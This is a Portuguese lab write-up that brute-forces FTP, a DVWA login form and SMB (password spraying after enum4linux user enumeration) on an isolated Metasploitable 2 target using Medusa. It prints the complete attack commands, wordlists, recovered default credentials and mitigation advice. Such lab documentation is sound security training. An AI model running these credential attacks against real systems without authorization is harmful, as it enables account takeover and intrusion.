# Ataques de Força Bruta com Medusa — Kali Linux + Metasploitable 2 + DVWA

Projeto prático de simulação de ataques de força bruta (FTP, formulário web e SMB/password spraying) usando **Medusa**, em um laboratório isolado composto por **Kali Linux** (atacante) e **Metasploitable 2** (alvo, hospedando o **DVWA**). O objetivo é exercitar técnicas ofensivas básicas de brute force e, a partir dos resultados, propor medidas de mitigação.

> ⚠️ **Aviso legal:** este projeto foi executado exclusivamente em um ambiente de laboratório isolado (rede host-only, sem acesso à internet ou a terceiros), utilizando máquinas virtuais vulneráveis propositalmente (Metasploitable 2, DVWA) para fins educacionais. Nunca execute ataques de força bruta contra sistemas que você não tenha autorização explícita para testar.

## Índice

- [Objetivo](#objetivo)
- [Ambiente de testes](#ambiente-de-testes)
- [Reconhecimento](#reconhecimento)
- [Wordlists](#wordlists)
- [Cenário 1 — Força bruta em FTP](#cenário-1--força-bruta-em-ftp)
- [Cenário 2 — Força bruta em formulário web (DVWA)](#cenário-2--força-bruta-em-formulário-web-dvwa)
- [Cenário 3 — Password spraying em SMB com enumeração de usuários](#cenário-3--password-spraying-em-smb-com-enumeração-de-usuários)
- [Resumo dos resultados](#resumo-dos-resultados)
- [Recomendações de mitigação](#recomendações-de-mitigação)
- [Estrutura do repositório](#estrutura-do-repositório)
- [Referências](#referências)

## Objetivo

- Configurar um ambiente de laboratório com duas VMs em rede interna (host-only).
- Executar ataques simulados de força bruta com a ferramenta **Medusa** em três superfícies diferentes: serviço FTP, formulário de login web (DVWA) e autenticação SMB (password spraying com enumeração prévia de usuários).
- Documentar wordlists, comandos, evidências de acesso obtido e recomendações de defesa.

## Ambiente de testes

| Máquina | Função | IP | Observações |
|---|---|---|---|
| Kali Linux | Atacante | (rede host-only) | Medusa, Nmap, smbclient, enum4linux, Firefox |
| Metasploitable 2 | Alvo | `192.168.56.101` | Hospeda FTP (vsftpd), SMB (Samba), DVWA (Apache/MySQL) |

Rede configurada em modo **host-only** no VirtualBox, isolando o laboratório de qualquer rede externa.

IP do alvo confirmado diretamente na VM (`ifconfig`):



```
eth0  Link encap:Ethernet  HWaddr 08:00:27:cb:73:0d
      inet addr:192.168.56.101  Bcast:192.168.56.255  Mask:255.255.255.0
```

Conectividade confirmada com `ping`:

```bash
ping -c 3 192.168.56.101
```



```
64 bytes from 192.168.56.101: icmp_seq=1 ttl=64 time=1.55 ms
64 bytes from 192.168.56.101: icmp_seq=2 ttl=64 time=13.2 ms
64 bytes from 192.168.56.101: icmp_seq=3 ttl=64 time=0.644 ms
3 packets transmitted, 3 received, 0% packet loss
```

## Reconhecimento

Varredura completa de portas e identificação de serviços/versões com Nmap:

```bash
sudo nmap -sV -p- 192.168.56.101
```



Principais serviços relevantes para os ataques deste projeto:

| Porta | Serviço | Versão |
|---|---|---|
| 21/tcp | ftp | vsftpd 2.3.4 |
| 80/tcp | http | Apache httpd 2.2.8 (DVWA) |
| 139/445/tcp | netbios-ssn (SMB) | Samba smbd 3.X - 4.X (workgroup: WORKGROUP) |

(Lista completa de ~28 portas abertas na imagem acima.)

## Wordlists

Wordlists pequenas e propositalmente simples, criadas manualmente para o laboratório:



**`senhas.txt`** (senhas para FTP e SMB):
```
msfadmin
123456
senha123
lab2026!
```

**`usuarios.txt`** (usuários para FTP e DVWA):
```
msfadmin
userlab
ftpuser
admin
```

**`usuarios_smb.txt`** (usuários enumerados via SMB/`enum4linux`, usados no password spraying):



```
msfadmin
user
service
postgres
mysql
ftp
proftpd
tomcat55
root
```

**`senhas_spray.txt`** (lista curta usada no password spraying SMB, para reduzir o risco de lockout):



```
password
123456
Welcome123
msfadmin
```

## Cenário 1 — Força bruta em FTP

Serviço: `vsftpd 2.3.4` na porta 21.

```bash
medusa -h 192.168.56.101 -U usuarios.txt -P senhas.txt -M ftp -t 1
```



**Resultado:**
```
ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
```

Credencial validada manualmente com cliente FTP:

```bash
ftp 192.168.56.101
Name: msfadmin
Password: ********
230 Login successful.
Remote directory: /home/msfadmin
```

> Observação: o uso de `-t 1` (uma thread) evita sobrecarregar o serviço e reduz o risco de falso-negativo por limitação de conexões simultâneas do vsftpd.

## Cenário 2 — Força bruta em formulário web (DVWA)

Alvo: módulo **Brute Force** do DVWA. Para simular um formulário sem proteções (sem CAPTCHA, sem bloqueio de tentativas), o nível de segurança do DVWA foi ajustado de **high**...



...para **low**, via a página `DVWA Security`:



Login autenticado como `admin` no DVWA:



Captura do cookie de sessão (`PHPSESSID`) para uso no Medusa:

```bash
export DVWA_COOKIE="PHPSESSID=31493acd8e48a51eb4be5eac853a2cb6; security=low"

medusa -h 192.168.56.101 -U usuarios.txt -P senhas.txt -M web-form \
  -m FORM:"/dvwa/vulnerabilities/brute/" \
  -m FORM-DATA:"get?username=&password=&Login=Login" \
  -m DENY-SIGNAL:"Username and/or password incorrect." \
  -m CUSTOM-HEADER:"Cookie: $DVWA_COOKIE"
```



**Resultado:**
```
ACCOUNT FOUND: [web-form] Host: 192.168.56.101 User: admin Password: password [SUCCESS]
```

O módulo `web-form` do Medusa envia cada combinação de usuário/senha via requisição GET ao formulário e usa a string de `DENY-SIGNAL` para identificar tentativas malsucedidas — qualquer resposta que não contenha essa string é tratada como sucesso.

## Cenário 3 — Password spraying em SMB com enumeração de usuários

Serviço: Samba 3.0.20-Debian (SMB), porta 139/445.

**Passo 1 — Enumeração de compartilhamentos e usuários:**

```bash
smbclient -L //192.168.56.101 -U msfadmin
```



Compartilhamentos identificados: `print$`, `tmp` ("oh noes!"), `opt`, `IPC$`, `ADMIN$`, `msfadmin` (Home Directories).

Enumeração de contas de usuário do sistema via `enum4linux` (RID cycling via SAMR), extraindo uma lista de contas válidas:



Essa lista (ex.: `msfadmin`, `service`, `postgres`, `mysql`, `ftp`, `proftpd`, `tomcat55`, `root`, entre outras) alimentou o `usuarios_smb.txt`.

**Passo 2 — Password spraying** (poucas senhas comuns testadas contra muitos usuários, em vez de muitas senhas contra um usuário — estratégia que reduz o risco de lockout de conta):

```bash
medusa -h 192.168.56.101 -U usuarios_smb.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```



**Resultado:**
```
ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
```

A credencial `msfadmin:msfadmin` concedeu acesso ao compartilhamento administrativo `ADMIN$`, confirmando uma falha crítica de configuração (conta padrão com senha igual ao usuário e privilégios administrativos).

## Resumo dos resultados

| Cenário | Serviço | Técnica | Credencial obtida | Impacto |
|---|---|---|---|---|
| 1 | FTP (vsftpd) | Força bruta clássica | `msfadmin:msfadmin` | Acesso ao diretório home do usuário |
| 2 | DVWA (web-form) | Automação de formulário HTTP | `admin:password` | Acesso administrativo à aplicação web |
| 3 | SMB (Samba) | Password spraying + enumeração prévia | `msfadmin:msfadmin` | Acesso ao compartilhamento `ADMIN$` |

Em todos os cenários, o fator comum foi o uso de **senhas fracas e previsíveis** (iguais ao nome do usuário ou extremamente comuns), sem qualquer mecanismo de bloqueio após tentativas sucessivas.

## Recomendações de mitigação

- **Política de senhas fortes:** exigir senhas longas, complexas e sem relação com o nome de usuário.
- **Bloqueio de conta / rate limiting:** implementar lockout temporário após N tentativas falhas (ex.: fail2ban para FTP/SSH/SMB).
- **MFA (autenticação multifator):** especialmente em serviços administrativos e painéis web.
- **CAPTCHA e tokens anti-automação** em formulários de login web.
- **Desativar ou restringir serviços legados** não utilizados (ex.: Telnet, rsh, contas de serviço sem necessidade de login interativo).
- **Monitoramento e alertas:** logs de autenticação (SMB, FTP, aplicação web) com alertas para múltiplas tentativas falhas em curto intervalo — base para detecção de brute force e password spraying.
- **Segmentação de rede:** reduzir exposição de serviços administrativos (ex.: `ADMIN$`) a redes não confiáveis.

## Estrutura do repositório

```
.
├── README.md
├── wordlists/
│   ├── usuarios.txt
│   ├── senhas.txt
│   ├── usuarios_smb.txt
│   └── senhas_spray.txt
└── images/
    ├── 01-metasploitable-ifconfig.png
    ├── 02-ping-conectividade.png
    ├── 03-nmap-scan.png
    ├── 04-wordlists-criacao.png
    ├── 05-ftp-bruteforce.png
    ├── 06-dvwa-login-admin.png
    ├── 07-dvwa-security-low.png
    ├── 08-dvwa-security-high.png
    ├── 09-dvwa-bruteforce-medusa.png
    ├── 10-smb-enum4linux.png
    ├── 11-usuarios-smb-txt.png
    ├── 12-senhas-spray-txt.png
    ├── 13-smb-password-spraying.png
    └── 14-smbclient-shares.png
```

## Referências

- [Medusa — Foofus Networks](http://www.foofus.net/)
- [DVWA — Damn Vulnerable Web Application](https://github.com/digininja/DVWA)
- [Metasploitable 2](https://docs.rapid7.com/metasploit/metasploitable-2/)
- [Nmap](https://nmap.org/)
